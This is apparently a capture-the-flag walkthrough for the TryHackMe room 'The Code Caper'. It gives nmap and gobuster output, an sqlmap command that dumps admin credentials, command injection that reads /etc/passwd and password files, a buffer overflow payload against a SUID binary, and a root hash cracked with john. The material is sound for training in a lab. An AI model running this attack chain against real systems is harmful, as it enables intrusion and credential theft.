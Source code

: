 # The Code caper

[Link to room](https://tryhackme.com/room/thecodcaper)

echo machine-ip codcaper.com >> /etc/hosts.com

Host-Enumeration

```nmap
# Nmap 7.80 scan initiated Fri May 29 10:13:06 2020 as: nmap -sV -sC -A -p 1-1000 -oN nmap.txt 10.10.9.78
Nmap scan report for 10.10.9.78
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/29%OT=22%CT=1%CU=39823%PV=Y%DS=2%DC=T%G=Y%TM=5ED1189
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   183.91 ms 10.9.0.1
2   184.02 ms 10.10.9.78

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 10:13:41 2020 -- 1 IP address (1 host up) scanned in 34.69 seconds
```

1. How many ports are open on the target machine?

> 2

2. What is the http-title of the web server?

> http-title of nmap scan

3. What version is the ssh service?

> use nmap -sV to check for versions 

4. What is the version of the web server?

> http-server-header of nmap


## Web Enumeration
1. What is the name of the important file on the server?

```bash
gobuster dir -u http://codcaper.com -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 40 -x php,html,txt
```
```
===============================================================                                                                                              
2020/06/17 03:36:26 Starting gobuster                                                                                                                        
===============================================================
/administrator.php (Status: 200)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
===============================================================
2020/06/17 03:36:34 Finished
===============================================================
```

## Web Exploitation

```bash
sqlmap -u http://codcaper.com/administrator.php --forms --dump
```
1. What is the admin username?
2. What is the admin password?

```
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

3. How many forms of SQLI is the form vulnerable to?

> 3


## Command Injection

go to codcaper.com/administrator.php and enter the credentials

###### Getting shell by command injection

1. How many files are in the current directory?

> run ls 

2. Do I still have an account?

> cat /etc/passwd and check if pingu exists

3. What is my ssh password?

> find / -name pass and cat it 

Login by ssh as pingu

## LinEnum 

```bash
scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```
1. What is the interesting path of the interesting suid file

```
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
```

Syntax error in method 2 , so here is the code without errors
```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```
1. What is the root password!

```bash
echo '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```


